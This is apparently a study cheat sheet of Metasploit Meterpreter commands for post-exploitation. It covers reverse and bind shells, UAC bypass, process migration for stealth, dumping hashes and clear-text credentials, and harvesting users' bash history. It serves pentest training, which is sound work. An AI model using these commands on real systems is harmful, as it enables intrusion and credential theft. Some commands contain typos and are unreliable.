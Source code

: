 ```yaml
---
description: >-
  short for Meta-Interpreter: Powerful shell runs on (x86, x64) Android, BSD,
  Java, Linux, PHP, Python & Windows. Able to gather info, Transfer files,
  install backdoors ...etc .
---
```


# Meterpreter

### List all Meterpreters:

```
search meterpreter
```

### Choose payload

```
set payload <your_meterpreter>
```

{% hint style="success" %}
Meterpreter can:

* bind\_tcp: Wait for commands on target machine. it runs a server on target waiting for conn from attacker.
* &#x20;reverse\_tcp: connect back to attacker. it performs a TCP conn to the attacker machine.&#x20;
{% endhint %}

#### To get the Meterpreter session you must run the exploit. (as shown in Metasploit)

```
exploit
```

## Sessions:

{% hint style="info" %}
**MSFConsole** can host multiple **Meterpreter** sessions.
{% endhint %}

### switch from Meterpreter session to the msf:

```
background
```

### list all the sessions in msf:

```
sessions -l
```

### resume a background session:

```
sessions -i <id>
```

## 🔍Recon with Meterpreter:

{% hint style="info" %}
Meterpreter, allow you to gather info on exploited machine and it's network. to retrieve:

* Info about Machine & OS.
* Network Config in use.
* Routing table of target.
* Target user info&#x20;
{% endhint %}

### System info:

```
sysinfo
```

### Print network config.:

```
ifconfig
```

### Get routing table&#x20;

```
route
```

### which user is running the process you exploited&#x20;

```
getuid
```

## Privilege Escalation:

### Run privilege escalation routine (if user is not privileged):

```
getsystem
```

> system is the highest privileges on windows machine.

{% hint style="danger" %}
in modern Windows OS he **User Account Control** (UAC) policy prevents privilege escalation. (fail when running getsystem).
{% endhint %}

### bypass UAC:

```
search bypassuac
use exploit/windows/local/bypassuac
set session <session_id_you_want_bypass_uac>
exploit
```

> Now you get a new session with UAC policy disabled.

### inside a Meterpreter session you can use the following to see your privileges:

```
run post/windosw/gather/win_privs
```

also read this to get privilege without tools:

[https://alvinsmith.gitbook.io/progressive-oscp/untitled/vulnversity-privilege-escalation](https://alvinsmith.gitbook.io/progressive-oscp/untitled/vulnversity-privilege-escalation)

## Remain Stealthy:

change the process name so it's no suspicious (inside Meterpreter session):

```
ps /          /to check runing process in target
ps -U SYSTEM //check for process with the same privilages (ex:SYSTEM)

migrate <process_ID>

getpid      //double check by getting the your-proc ID
```

## 🔑Dumping Password Database (hashes):

you can type hashdump inside a Meterpreter session another way is:

```
background 
use post/windows/gather/hashdump
set session <id>
exploit
```

better way dumbed in clear text:

```
migrate -N explorer.exe //migrate to process o have same admin right 
background
use post/windows/gather/credentials/windows_autologin
set SESSION <ID>
exploit
```

## Dumbing Victim .bash\_history

assuming you hacked a Unix system and now you have a meterpreter sessions and inside it:

```
background
use post/linux/gather/enum_users_history
set SESSION 1
run
```

## 🚶‍♂️Exploring the Victim System:

### navigation:

```
pwd      //print working dire
cd C:\\  //escape backslashes by doubling them.
ls       //list current dir
```

### Downloading & Uploading:

```
download '<output_location>' <Local_PC_path>
upload download '<local_path>' <target_ecape_backslash>
```

## Running the OS Shell&#x20;

```
shell
bash -i //sometimes needed
mv backups /var/www/html/backups
```

## Help

every command have a help just add -h:

```
command -h
help       //to display all Meterpreter commands
```

##
